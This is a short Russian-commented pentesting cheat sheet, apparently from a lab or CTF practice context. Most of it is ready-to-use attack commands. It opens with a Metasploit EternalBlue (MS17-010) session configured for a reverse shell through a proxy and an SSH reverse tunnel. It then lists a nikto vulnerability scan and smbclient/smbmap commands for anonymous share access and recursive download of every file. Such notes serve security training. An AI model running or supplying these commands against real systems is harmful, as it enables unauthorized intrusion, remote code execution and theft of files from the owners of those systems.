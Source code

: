 msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.0.2.10
rhosts => 10.0.2.10
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.0.2.15
lhost => 10.0.2.15
msf6 exploit(windows/smb/ms17_010_eternalblue) > set proxies socks4:127.0.0.1:9050
proxies => socks4:127.0.0.1:9050              
msf6 exploit(windows/smb/ms17_010_eternalblue) > set reverseallowproxy true
reverseallowproxy => true
msf6 exploit(windows/smb/ms17_010_eternalblue) > set reverselistenerbindaddress 127.0.0.1
reverselistenerbindaddress => 127.0.0.1
msf6 exploit(windows/smb/ms17_010_eternalblue) > set reverselistenerbindport 4455

потом
ssh -R 4444:127.0.0.1:4455 vboxuser@192.168.50.200 -vN

и RUN
      
# сканирование на веб дырки

nikto -url http://10.10.217.189/ 





# Сетевые шары

# SMB

smbcacls -N '//10.10.10.103/Department Shares'

smbclient -L 10.10.217.189 - подключение по смб

smbclient --no-pass //10.10.217.189/Users -смотрим папки

smbclient //10.10.218.125/users -c 'recurse;ls'   (Ркурсивно просмотреть все шары)

*** Скачать рекурсивно все файлы изнутри

smb: \> recurse on
smb: \> prompt off
smb: \> mget *



smbclient //192.168.50.232/Users -U ''

smbclient -N //192.168.50.232/Users 

smbclient //192.168.50.232/Users -U Alexs

smbclient -L 192.168.50.200 -U Administrator

smbclient //192.168.50.162/Users -U Alex - переход по директориям

<< smbclient \\\\192.168.50.232\\Users -U Alexs >>

smbmap -H 10.10.149.120 -u anonymous
